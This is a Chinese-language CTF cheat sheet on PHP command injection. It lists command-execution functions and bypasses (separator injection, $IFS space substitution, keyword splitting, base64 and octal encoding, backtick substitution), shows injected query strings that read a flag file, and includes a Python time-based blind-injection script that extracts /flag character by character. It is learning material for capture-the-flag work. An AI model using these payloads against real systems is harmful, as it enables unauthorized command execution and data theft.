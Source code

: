 ```yaml
---
title: 【WEB】命令执行
---
```


# 命令执行

以下介绍为 PHP 环境

用于命令执行的函数有

```
system
exec
passthru
shell_exec
```



## 一些常见的绕过方法

命令拼接

<img src="/images/exec/1.png" alt="image-20201218105802" style="zoom: 67%;"/>

以及

```
%0a
%0d
\n
```

空格绕过

```
$IFS
${IFS}
$IFS$1
%09
{cat,flag.php}
```

关键字 flag 被过滤

```
fla\g
a=g;fla$a
```

例如：

```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

或者使用 base64 编码绕过

```
?url=127.0.0.1|`echo%09WTJGMElDOWxkR012TG1acGJtUm1iR0ZuTDJac1lXY3VkSGgw|base64%09-d|base64%09-d`
```

另外如反引号可在语句中执行命令

```
ls `cat /flag > /var/www/html/1.txt`
```

或者使用 $() 和八进制

```
$(printf$IFS$9"\154\163")
```

另附一份无回显盲注脚本

```
import requests
import time

s=requests.session()
flag=''
for z in range(1,50):
    for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#%|^&{}[]/-()+=,\\':
        starTime=time.time()
        url="http://127.0.0.1/?cmd=if [ `cut -c"+str(z)+"-"+str(z)+" /flag` != '"+i+"' ]; then echo 1 ; else sleep 3; fi"
        r=s.get(url)
        if((time.time()-starTime)>3):
            flag+=i
            print(flag)
            break
    print(z)
print('the flag is'+flag)
```